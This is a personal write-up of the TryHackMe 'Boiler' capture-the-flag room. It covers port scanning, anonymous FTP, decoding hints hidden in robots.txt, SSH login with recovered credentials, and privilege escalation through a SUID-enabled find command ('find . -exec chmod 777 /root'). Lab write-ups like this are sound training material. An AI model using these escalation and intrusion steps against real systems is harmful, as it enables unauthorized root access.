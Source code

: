 # Tryhackme (boiler CTF)

	enumuration process
## Nmap
```
sudo nmap -sC -sV 10.10.231.142
```
we got the ports like

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-03-26 16:41 IST
Nmap scan report for 10.10.231.142
Host is up (0.55s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.2.124.113
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.36 seconds


```

in this scan there is a ftp server, from that server we got an file `.info.txt` in this file there is some bunch of text are there for that we need to check any vuln.

in this file we have some of the ROT13 codes 
```
	Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!

```
after decrypt: 	`Just wanted to see if you find it. Lol. Remember: Enumeration is the key!`	



also there http server mainly `robots.txt` in thsi directory
```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```
in this some of the decimal encryption. we decrypt that codes we got

- OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK == base64
- 99b0660cd95adea327c54182baa51584  = md5
- kidding

also searched for directory list we got

`dirsearch -u http://10.10.253.152`
```
[17:22:52] 200 -   11KB - /index.html
[17:22:55] 301 -  315B  - /joomla  ->  http://10.10.231.142/joomla/
[17:22:55] 301 -  329B  - /joomla/administrator  ->  http://10.10.231.142/joomla/administrator/
[17:22:56] 200 -   12KB - /joomla/
[17:23:02] 301 -  315B  - /manual  ->  http://10.10.231.142/manual/
[17:23:02] 200 -  626B  - /manual/index.html
[17:23:24] 200 -  257B  - /robots.txt
[17:23:26] 403 -  302B  - /server-status/
[17:23:26] 403 -  301B  - /server-status


```

in site we got encrypted message 
- VjJodmNITnBaU0JrWVdsemVRbz0K
- V2hvcHNpZSBkYWlzeQo=
- Whopsie daisy


## ssh

user = basterd
passwd  superduperp@$$

```
ssh basterd@10.10.129.170 -p 55007
```
after we enter the new user id 
cat backup.sh
[image]
we got user text

cat .secret
- ` `


then check the root privilage
`sudo -l`

SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.

Use the following command to find files whose SUID bit is set.
```
    $ find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```
[image]

Let’s breakdown the command we used for better understanding:

find →Search for files in a directory hierarchy.
/ →Search for files recursively from the root folder and so on.
-perm →To set specific permission setting. In this case which is /4000 the numerical representation of the SUID bit enabled
-type →It specify what type of files we wants to search. f for files, d for directories
-exec →let us execute a command with the findings from find in an array. In this case I used ls -ld to show the owner of the found files and the date of creation
2>/dev/null → which redirects all (errors) to /dev/null and keeping the output clean.

Have you observed the output we got from this command yet? In the list there is find commnad which have SUID bit set which means we can run find as root user. Using -exec flag as shown above. Let’s try out by changing the permission of root directory.
```
$ find . -exec chmod 777 /root \;
```

finally we got a root.txt

- 
